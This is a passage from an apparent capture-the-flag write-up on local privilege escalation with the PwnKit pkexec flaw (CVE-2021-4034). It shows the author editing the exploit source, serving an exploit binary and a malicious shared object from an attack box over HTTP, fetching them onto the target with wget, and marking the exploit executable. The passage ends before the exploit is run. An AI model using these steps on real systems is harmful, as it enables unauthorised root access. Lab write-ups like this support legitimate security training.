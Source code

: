 ### Privilege Escalation with PwnKit (CVE-2021-4034)

During privilege escalation enumeration, I found that `/usr/bin/pkexec` was present and set-uid root. Checking its version showed it was **0.105**, which is vulnerable to **CVE-2021-4034**, known as *PwnKit*. This bug in polkit’s `pkexec` allows local privilege escalation from an unprivileged user to root by exploiting how it mishandles arguments and environment variables.

---

### Preparing the Exploit

On my **attack box** I had access to the exploit code and compiled two components:

* `exploit` → the binary that triggers the vulnerable pkexec path.
* `evil.so` → a malicious shared object that gets loaded to execute a shell.

To adapt the proof of concept to this environment, I modified the `exploit.c` source file. Specifically, I replaced the line:

```c
#define BIN "/usr/bin/pkexec"

```

with:

```c
#define BIN "/home/red/.git/pkexec"

```

This ensured the exploit would target the `pkexec` binary in the right location on the system. After that adjustment, I compiled the files successfully.

To make them available to the target machine, I hosted them with a Python HTTP server:

```bash
python3 -m http.server 9000

```

This exposed the current directory at `http://<ATTACK_BOX_IP>:9000/`.

---

### Transferring to the Target

From my shell on the target (`blue@red`), I pulled the files into `/tmp` using `wget`:

```bash
wget <http://10.201.16.159:9000/exploit> -O exploit
wget <http://10.201.16.159:9000/evil.so> -O evil.so

```

Initially I got a `Permission denied` when trying to run `./exploit`, so I corrected it:

```bash
chmod +x exploit

```
